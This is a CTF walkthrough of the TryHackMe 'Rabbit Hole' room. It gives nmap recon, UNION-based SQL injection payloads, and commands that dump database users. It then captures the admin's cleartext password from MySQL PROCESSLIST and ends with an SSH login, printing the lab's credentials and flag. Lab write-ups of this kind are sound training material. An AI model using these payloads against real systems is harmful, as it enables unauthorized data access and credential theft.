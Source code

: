 TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

🔍 Challenge Overview

Platform: TryHackMe
Room Name: Rabbit Hole
Category: Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
Difficulty: Intermediate

Keywords for SEO: tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab

This is a complete, step-by-step professional walkthrough to solve the “Rabbit Hole” room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

⸻

🛠 Step 1: Initial Reconnaissance

nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12

Discovered Ports:

22/tcp (SSH)
80/tcp (HTTP)

Visit the web service:

http://10.10.173.12

Identified login/register functionality and “Last Logins” page reflecting usernames.

⸻

🧪 Step 2: SQL Injection Detection

Test Payload:

' UNION SELECT 1;--

Error Response:

SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns

Working Payload:

' UNION SELECT 1,2;--

Confirmed that two columns are being selected.

⸻

🧬 Step 3: Extract Database Names

python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'

Result:

information_schema,web



⸻

🗂 Step 4: Extract Table Names from web

python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'

Tables Found:

users,logins



⸻

🧱 Step 5: Extract Columns from users

python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'

Columns:

id,username,password,group



⸻

🔐 Step 6: Dump User Data

python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'

Dumped:

1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user



⸻

👁️ Step 7: Monitor PROCESSLIST for Admin Password

Repeatedly run:

python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'

Target Output Example:

SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')

Extract the cleartext password inside the md5() function.

⸻

💻 Step 8: SSH Login as Admin

ssh admin@10.10.173.12

Password:

fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q



⸻

🏁 Step 9: Capture the Flag

ls
cat flag.txt

Flag:

THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}



⸻

🧰 Tools & Techniques Used
	•	nmap, curl, Burp Suite
	•	Manual SQL injection testing
	•	information_schema enumeration
	•	MySQL PROCESSLIST query leakage
	•	Python scripting (requests, bs4)

⸻

📁 Included Scripts

sqli_automate2.py

Automates 16-character chunked SQL data extraction using SUBSTR.

processlist_extractor.py

Multi-threaded script to capture live SQL queries from MySQL information_schema.processlist.

⸻

✍️ Writeup by: Mohsin Arif

GitHub: https://github.com/mhsn1
TryHackMe: https://tryhackme.com/p/mhsn1

Keywords: tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial


